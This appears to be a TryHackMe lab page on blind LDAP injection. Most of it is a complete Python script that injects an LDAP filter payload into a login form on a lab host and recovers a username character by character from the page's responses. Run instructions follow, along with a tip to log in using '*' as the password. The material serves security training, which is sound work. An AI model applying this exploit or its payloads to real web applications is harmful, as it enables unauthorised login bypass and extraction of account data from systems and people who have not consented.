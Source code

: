 ## Exploit Code

To automate the exfiltration of data in the previous task, you can use the Python script below:

```python
import requests
from bs4 import BeautifulSoup
import string
import time

# Base URL
url = 'http://10.10.246.6/blind.php'

# Define the character set
char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "._!@#$%^&*()"

# Initialize variables
successful_response_found = True
successful_chars = ''

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

while successful_response_found:
    successful_response_found = False

    for char in char_set:
        #print(f"Trying password character: {char}")

        # Adjust data to target the password field
        data = {'username': f'{successful_chars}{char}*)(|(&','password': 'pwd)'}

        # Send POST request with headers
        response = requests.post(url, data=data, headers=headers)

        # Parse HTML content
        soup = BeautifulSoup(response.content, 'html.parser')

        # Adjust success criteria as needed
        paragraphs = soup.find_all('p', style='color: green;')

        if paragraphs:
            successful_response_found = True
            successful_chars += char
            print(f"Successful character found: {char}")
            break

    if not successful_response_found:
        print("No successful character found in this iteration.")

print(f"Final successful payload: {successful_chars}")
```

Click [here](#) for a breakdown of the script.

The above script iteratively guesses the characters of the email by observing the web application's behaviour in response to crafted input.

## Automation

Save the Python code above. If you are using AttackBox, the required Python modules have already been installed. Make sure to use `python3.9` when using the AttackBox since there are multiple Python installations on it.

Below is the sample command on how to run the automation script:

```bash
~/Downloads
user@tryhackme$ ls
script.py
user@tryhackme$ python3.9 script.py
```

This will immediately show the results of the brute force as shown below:

_result of bruteforce attack_

Use the final payload to log in to `http://10.10.246.6/login.php`. Make sure to use `*` as the password; this will automatically evaluate the search query as true.